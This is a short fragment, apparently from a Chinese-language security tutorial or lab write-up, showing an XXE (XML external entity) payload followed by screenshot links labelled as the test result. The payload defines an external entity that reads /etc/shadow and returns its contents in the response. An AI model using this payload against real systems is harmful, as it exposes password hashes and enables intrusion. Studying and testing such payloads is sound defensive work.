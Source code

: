 		<?xml version="1.0" encoding="utf-8"?> 
		<!DOCTYPE xxe [
		<!ELEMENT name ANY >
		<!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
		<root>
		<name>&xxe;</name>
		</root>

- 测试效果
![post-XXEPayload1.png](img/post-XXEPayload1.png)

![post-Response1.png](img/post-Response1.png)
